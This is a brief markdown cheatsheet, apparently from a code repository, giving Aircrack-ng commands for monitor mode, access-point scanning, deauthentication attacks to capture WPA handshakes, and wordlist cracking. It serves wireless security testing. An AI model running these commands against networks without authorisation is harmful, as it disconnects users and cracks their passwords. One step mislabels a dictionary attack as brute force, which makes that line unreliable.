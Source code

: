 # 🔐 Aircrack-ng Suite Cheatsheet

A comprehensive reference for wireless security testing with the Aircrack-ng suite.

---

## 🚀 Quick Start Process

### 1. **Monitor Mode Setup**
```bash
# Check available interfaces
iwconfig

# Enable monitor mode
sudo airmon-ng start wlan0

# Verify monitor mode
iwconfig
```

### 2. **AP Discovery**
```bash
# Scan for access points
sudo airodump-ng wlan0mon

# Target specific channel
sudo airodump-ng -c 6 wlan0mon

# Target specific BSSID
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
```

### 3. **Capture Handshake**
```bash
# Capture to file
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# In another terminal - deauth attack
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
```

### 4. **Crack Handshake**
```bash
# Dictionary attack
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

# Brute force (4-way handshake)
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap
```

---
